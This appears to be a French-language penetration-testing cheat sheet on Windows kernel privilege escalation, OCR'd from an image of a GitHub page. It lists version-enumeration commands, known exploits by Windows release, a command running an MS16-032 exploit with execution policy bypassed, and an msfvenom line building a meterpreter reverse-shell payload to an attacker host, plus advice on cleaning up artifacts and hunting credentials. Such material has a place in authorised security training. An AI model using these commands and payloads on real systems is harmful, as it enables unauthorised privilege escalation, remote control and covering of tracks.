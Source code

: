 ## 🐛 Exploits Kernel Windows

### Identification version Windows
```batch
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
wmic os get Caption,Version,BuildNumber,OSArchitecture
```

### Exploits courants par version
```batch
# Windows 7/Server 2008
# MS10-015 (KiTrap0D)
# MS10-092 (Task Scheduler)
# MS11-080 (AFD.sys)

# Windows 8/Server 2012
# MS13-005 (Kernel-Mode Driver)
# MS13-081 (TrackPopupMenuEx)

# Windows 10/Server 2016+
# CVE-2019-1388 (UAC Bypass)
# CVE-2020-0787 (Background Intelligent Transfer Service)
# CVE-2021-1675 (PrintNightmare)
```

### Utilisation d'exploits
```batch
# Exemple avec MS16-032
powershell -ExecutionPolicy Bypass -File MS16-032.ps1

# Avec Metasploit
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe > payload.exe
# Puis utiliser exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```

## 🛡️ Conseils OPSEC
- Éviter les exploits kernel sur systèmes de production (risque BSOD)
- Nettoyer les artefacts créés (fichiers payload, tâches ajoutées)
- Utiliser des techniques Living-off-the-Land quand possible
- Documenter tous les privilèges et services exploités
- Préférer les techniques non-destructives aux exploits agressifs

## ⚠️ Erreurs fréquentes
- Oublier de vérifier les privilèges tokens (SeImpersonate crucial)
- Ne pas énumérer toutes les tâches planifiées (y compris cachées)
- Ignorer les services avec chemins non-quotés (très répandu)
- Lancer des exploits sans vérifier la version exacte de Windows
- Ne pas vérifier les permissions sur les binaires de service

## 💡 Astuces
- Utiliser PowerUp et WinPEAS en parallèle pour maximum de couverture
- Combiner Juicy/Rogue Potato selon la version Windows
- Vérifier les registres AutoRun pour persistance et privesc
- Chercher les credentials dans les scripts de configuration
- Exploiter les drivers tiers souvent moins sécurisés
